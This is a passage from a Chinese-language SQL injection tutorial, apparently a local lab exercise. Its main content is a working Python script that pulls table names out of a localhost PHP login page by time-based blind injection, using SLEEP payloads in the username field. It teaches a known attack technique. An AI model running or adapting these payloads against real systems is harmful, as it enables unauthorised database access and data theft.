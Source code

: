 **脚本注入**

对于数据表名，和数据库名一样对大小写不敏感，因此可以直接沿用爆破数据库名的脚本

```py
import requests
import string

url = 'http://localhost/sql-injection/blind-time.php'
charset = string.ascii_lowercase + string.digits + string.punctuation

# 确定长度
maxLen = 50
tableNameLen = 0
for i in range(1, maxLen + 1):
    print(f'正在测试数据表名长度为{i}...')
    payload = f"0' OR (SELECT 1 FROM (SELECT IF(LENGTH((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()))={i},SLEEP(1),1)) AS a)#"
    response = requests.post(url, data={'username': payload})
    responseTime = response.elapsed.total_seconds()
    if responseTime > 1.0:
        tableNameLen = i
        break
print(f'>>> 数据表名长度为{tableNameLen}')

# 获取数据表名
tableNames = ''
for i in range(1, tableNameLen + 1):
    print(f'正在测试数据表名第{i}个字符...')
    for j in charset:
        payload = f"0' OR (SELECT 1 FROM (SELECT IF(SUBSTRING((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()),{i},1)='{j}',SLEEP(1),1)) AS a)#"
        response = requests.post(url, data={'username': payload})
        responseTime = response.elapsed.total_seconds()
        if responseTime > 1.0:
            tableNames += j
            break
print(f'>>> 数据表名为 {tableNames}')
```

结果如下

> <img src="./IMG3/{B044C395-D329-4DC7-86A6-600C6E0B7FAC}.png">
